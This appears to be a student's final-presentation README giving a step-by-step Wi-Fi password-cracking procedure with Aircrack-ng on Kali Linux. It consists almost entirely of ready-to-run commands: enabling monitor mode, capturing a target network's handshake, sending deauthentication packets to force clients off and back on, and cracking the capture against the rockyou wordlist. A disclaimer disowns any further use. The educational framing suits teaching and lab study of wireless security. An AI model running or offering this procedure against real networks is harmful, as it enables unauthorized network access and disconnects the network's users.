 *the writer of this code is not resposible for any further use* 
# UCLA Final Presentation: Aircrack-ng on Kali Linux
Verify airmon-ng has no issues:
<pre><code>sudo airmon-ng check</code></pre>

Determine name of wireless adapter:
<pre><code>sudo iwconfig</code></pre>

Enable monitor mode in the Wi-Fi card:
<pre><code>sudo airmon-ng start wlan0</code></pre>
  - Do not close terminal.

Capture the network packets:
<pre><code>sudo airodump-ng wlan0mon</code></pre>

Identify target network an note BSSID (MAC address) and channel
<pre><code>sudo airodump-ng --bssid (BSSID) -c (channel) -w (capture file output name) wlan0mon</code></pre>

While packets are capturing, open a seperate terminal and run the command:
<pre><code>sudo aireplay-ng --deauth 100 -a (BSSID) wlan0mon</code></pre>
  - Sends deauthentification packets to the target netowrk and forces clients to reconnect and sent their login credentials

Stop catpure with "ctrl + c"

Unzip rockyou.txt and create path to wordlist:

Locate rockyou.txt in Kali Linux:
<pre><code>cd /usr/share/wordlists</code></pre>
<pre><code>ls</code></pre>
It will present as: <pre><code>rockyou.txt.gz</code></pre>
Unzip rockyou.txt:
<pre><code>sudo gunzip rockyou.txt.gz</code></pre>

Nano into rockyou.txt and add designated password

Save document

Crack password:
<pre><code>sudo aircrack-ng -b (BSSID) -w (path to wordlist) (captire file name).cap</code></pre>
